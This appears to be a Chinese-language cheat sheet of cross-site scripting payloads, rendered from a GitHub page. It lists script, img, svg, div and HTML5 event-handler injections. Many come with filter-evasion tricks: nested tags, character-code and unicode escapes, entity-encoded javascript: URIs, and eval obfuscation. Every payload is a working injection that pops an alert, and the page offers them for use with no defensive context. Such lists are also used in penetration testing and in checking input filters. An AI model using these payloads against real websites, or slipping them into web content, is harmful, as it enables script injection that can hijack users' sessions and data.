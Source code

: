 ```javascript
// 基础payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
<><img src=1 onerror=alert(1)>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```

### HTML5标签的xss payload

```javascript
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // 在手指触摸屏幕时触发
<body ontouchend=alert(1)>   // 当手指从触摸屏上移开时触发
<body ontouchmove=alert(1)>  // 当手指在屏幕上拖动时触发
```
